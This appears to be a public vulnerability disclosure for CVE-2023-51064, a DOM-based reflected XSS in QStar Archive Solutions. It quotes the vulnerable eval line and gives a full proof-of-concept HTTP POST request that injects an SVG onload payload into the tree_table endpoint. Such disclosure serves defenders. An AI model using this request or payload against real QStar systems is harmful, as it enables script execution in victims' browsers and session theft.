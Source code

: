 ## CVE-2023-51064

### Description
QStar Archive Solutions Release RELEASE_3-0 Build 7 Patch 0 was discovered to contain a DOM Based reflected XSS vulnerability within the component `qnme-ajax?method=tree_table`.

### Vulnerability Type
XSS 

### Vendor of Product
QStar

### Affected Product Code Base
QStar Archive Solutions - Release RELEASE_3-0 Build 7 Patch 0

### Exploitation
to exploit this vulnerability, an attacker must craft a CSRF exploit and socially engineer the victim to click on a link. The CSRF exploit must have the POST request to exploit the XSS vulnerability.

### PoC 

> Vulnerable Code - ./qstar.js
```js
line 256 -> return eval("("+data+")");
```

> HTTP Post Request

```
POST /qnme-ajax?method=tree_table HTTP/1.1
Host: 10.0.10.5:7777
Cookie: PHPSESSID=XXXXXX; QNMSESSID=XXXXXXXX; undefined=XXXXXXX; browser=1; fs_agent=2%7C2%7C3; active=fs_agent; fs=1%7C2%7C1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://10.0.10.5:7777/qnme-browser
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 176
Origin: https://10.0.10.5:7777
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

args%5Bcheck%5D=0&args%5Bhelper%5D=browser&args%5Bparent%5D=1<html><body><svg onload=alert(1)>&args%5Blevel%5D=1&args%5Bkey%5D=undefined&args%5BisFiles%5D=1&args%5Block%5D=true
```

![img2](img/img2.png)